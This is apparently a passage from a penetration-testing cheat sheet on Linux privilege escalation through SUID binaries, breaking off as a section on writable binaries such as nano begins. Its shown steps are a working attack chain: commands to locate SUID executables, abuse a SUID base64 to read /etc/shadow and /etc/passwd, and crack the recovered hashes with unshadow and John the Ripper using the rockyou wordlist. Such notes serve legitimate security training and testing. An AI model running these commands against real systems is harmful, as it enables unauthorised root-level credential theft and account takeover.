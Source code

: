 * Verify executables with special permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -type f -perm -04000 -ls 2>/dev/null | grep bin
</strong>#Example results
<strong>1111  1  -rwsr-xr-x  1  root  root  1111  Feb  10  2030  /usr/bin/base64
</strong></code></pre>

{% hint style="info" %}
`base64` is used as an example, can be any other executable with data visualization properties such as `nano`,`cat`, `vim`, `nvim`, etc...
{% endhint %}

***

* Check binary SUID abuse on _GTFOBins_

{% code overflow="wrap" lineNumbers="true" %}
```bash
LFILE=file_to_read
base64 "$LFILE" | base64 --decode
```
{% endcode %}

***

* Abuse privileges to read important files and copy its content locally

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>base64 /etc/shadow | base64 --decode #Display content of shadow    
</strong>base64 /etc/passwd | base64 --decode #Display content of passwd
touch shadow.txt #Create on the host machine and copy the content of shadow
touch passwd.txt #Create on the host machine and copy the content of passwd
</code></pre>

***

* Use _John_ to make a crackable file and crack passwords

{% code overflow="wrap" lineNumbers="true" %}
```sh
unshadow passwd.txt shadow.txt > crack.txt
john -w=/usr/share/wordlists/rockyou.txt crack.txt
#If possible to crack this will display the password of users
```
{% endcode %}

## <mark style="color:orange;">Abusing SUID/SGID permissions on writing binaries</mark>

* Verify executables with special permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -type f -perm -04000 -ls 2>/dev/null | grep bin
</strong>#Example results
<strong>1111  1  -rwsr-xr-x  1  root  root  1111  Feb  10  2030  /usr/bin/nano
</strong></code></pre>
